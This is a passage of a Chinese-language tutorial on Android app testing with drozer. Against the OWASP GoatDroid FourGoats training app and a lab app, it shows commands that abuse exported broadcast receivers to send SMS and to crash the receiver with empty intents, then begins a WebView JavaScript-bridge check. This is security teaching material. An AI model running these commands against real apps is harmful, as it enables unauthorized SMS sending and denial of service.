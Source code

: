![image-20200628163232216](/images/drozer/image-20200628163232216.png)

(APK未加壳直接反编译获取指定参数)

源代码参数phoneNumber和massage，会发送Your text message has been sent!

![image-20200628190616482](/images/drozer/image-20200628190616482.png)

```shell
//发送恶意代码
dz> run app.broadcast.send --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message 123
```

![image-20200628174809779](/images/drozer/image-20200628174809779.png)

手机端提示信息发送成功提醒

<img src="/images/drozer/image-20200628174909868.png" alt="image-20200628174909868" style="zoom:50%;" />

#### 11、Vul实战

````shell
//发送恶意数据到手机号上
dz> run app.broadcast.send --component com.isi.vul_broadcastreceiver com.isi.vul_broadcastreceiver.MyBroadCastReceiver --extra sting number 18225xxxxx
````

#### 12、拒绝服务

```shell
//拒绝服务分两种空 actoin 和空 extras
//空action
dz> run app.broadcast.send --component com.isi.vul_broadcastreceiver com.isi.vul_broadcastreceiver.MyBroadCastReceiver
//空extras
dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS
```

<img src="/images/drozer/image-20200628194446420.png" alt="image-20200628194446420" style="zoom:50%;" />

### WebView代码执行检测

1、检测模版安装

开启检测前需提前安装模块`checkjavascriptbridge`

```shell
dz> module install jubax.javascript
```

![image-20200628200631521](/images/drozer/image-20200628200631521.png)

2、执行命令检测手机内所有APP
